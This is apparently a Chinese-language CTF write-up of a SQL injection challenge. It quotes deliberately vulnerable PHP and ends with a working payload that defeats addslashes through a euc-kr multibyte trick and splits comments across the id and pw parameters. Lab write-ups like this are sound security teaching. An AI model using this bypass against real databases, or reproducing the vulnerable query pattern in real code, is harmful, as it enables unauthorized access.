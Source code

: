 # old-50_450

* 這一題一進去的時候就可以看到斗大的標題 --- sql injection，以及 source code
    ```php=
    if($_GET['id'] && $_GET['pw']){
        $db = dbconnect();
        $_GET['id'] = addslashes($_GET['id']); 
        $_GET['pw'] = addslashes($_GET['pw']);
        $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
        foreach($_GET as $ck) if(preg_match("/from|pw|\(|\)| |%|=|>|</i",$ck)) exit();
        if(preg_match("/union/i",$_GET['id'])) exit();
        $result = mysqli_fetch_array(mysqli_query($db,"select lv from chall50 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
        if($result){
          if($result['lv']==1) echo("level : 1<br><br>");
          if($result['lv']==2) echo("level : 2<br><br>");
        } 
        if($result['lv']=="3") solve(50);
        if(!$result) echo("Wrong");
      }
    ```
    所以目標是把 lv 變成 3
* 看到這種兩邊都可以改動又看到非常討厭的 md5 的時候，可以用註解夾擊來化解
* 然後再看到這一行 `mb_convert_encoding($_GET['id'],'utf-8','euc-kr');`
    因為有經過 encoding 所以有極大可能性可以 encode 之後剩下 `'`
    可以參考一下這一篇[文章](https://websec.wordpress.com/2012/06/12/secuinside-ctf-writeup-sqlgeek/)
* 所以我產生了以下的 payload `?id=%bf%27/*&pw=*/union/**/select/**/3%23`
